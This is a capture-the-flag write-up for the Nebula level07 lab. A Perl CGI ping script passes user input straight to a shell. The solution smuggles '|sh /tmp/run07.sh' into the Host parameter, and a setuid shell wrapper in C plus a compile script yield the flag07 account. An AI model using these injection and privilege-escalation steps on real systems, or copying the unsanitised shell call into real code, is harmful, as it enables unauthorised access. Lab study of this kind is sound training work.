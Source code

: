 # Level07

## Task
>The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

>To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

## Solution

There is a webserver on port 7007

```
level07@nebula:/home/flag07$ cat thttpd.conf | grep port
# Specifies an alternate port number to listen on.
port=7007
```

using the same exploit from a previous level

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

and a bash script to compile it

```
#!/bin/bash

gcc /tmp/shell.c -o /home/flag07/shell
chmod +s /home/flag07/shell
```

Use the webserver to run as `flag07` user

```
level07@nebula:/home/flag07$ cd
level07@nebula:~$ wget 'http://localhost:7007/index.cgi?Host=127.0.0.1|sh /tmp/run07.sh'
--2017-01-09 02:33:24--  http://localhost:7007/index.cgi?Host=127.0.0.1%7Csh%20/tmp/run07.sh
Resolving localhost... 127.0.0.1
Connecting to localhost|127.0.0.1|:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `index.cgi?Host=127.0.0.1|sh %2Ftmp%2Frun07.sh'

    [  <=>                                                                         ] 77          76.9B/s   in 1.0s

2017-01-09 02:33:25 (76.9 B/s) - `index.cgi?Host=127.0.0.1|sh %2Ftmp%2Frun07.sh' saved [77]

```

Then look for our new shell binary

```
level07@nebula:/home/flag07$ ls -la
total 18
drwxr-x--- 1 flag07 level07   60 2017-01-09 02:33 .
drwxr-xr-x 1 root   root     300 2012-08-27 07:18 ..
-rw-r--r-- 1 flag07 flag07   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag07 flag07  3353 2011-05-18 02:54 .bashrc
-rwxr-xr-x 1 root   root     368 2011-11-20 21:22 index.cgi
-rw-r--r-- 1 flag07 flag07   675 2011-05-18 02:54 .profile
-rwsr-sr-x 1 flag07 flag07  7321 2017-01-09 02:33 shell
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf
```

Get the Flag

```
level07@nebula:/home/flag07$ ./shell
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
